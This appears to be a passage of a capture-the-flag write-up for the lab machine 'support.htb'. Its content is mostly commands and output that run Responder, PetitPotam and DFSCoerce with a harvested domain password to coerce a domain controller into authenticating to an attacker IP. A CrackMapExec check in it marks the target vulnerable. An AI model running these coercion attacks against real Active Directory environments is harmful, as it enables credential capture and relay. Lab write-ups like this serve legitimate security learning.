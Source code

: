 ```bash
sudo responder -A -I tun1 -v
```

```bash
python /opt/sectools/ad/PetitPotam/PetitPotam.py -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb 10.10.16.13 10.129.227.255
```

![](/assets/obsidian/85d161eae8d4189330c57e85ba8114f8.png)


### MS-DFSNM 

```bash
[*] cme smb support.htb -u ldap -p nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz -M dfscoerce
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.255  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
DFSCOERC... 10.129.227.255  445    DC               VULNERABLE
DFSCOERC... 10.129.227.255  445    DC               Next step: https://github.com/Wh04m1001/DFSCoerce
```

```bash
sudo responder -A -I tun1 -v
```

```bash
python dfscoerce.py -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb 10.10.16.13 10.129.227.255
```

![](/assets/obsidian/d903fb19891ab548584d0cab6c917148.png)
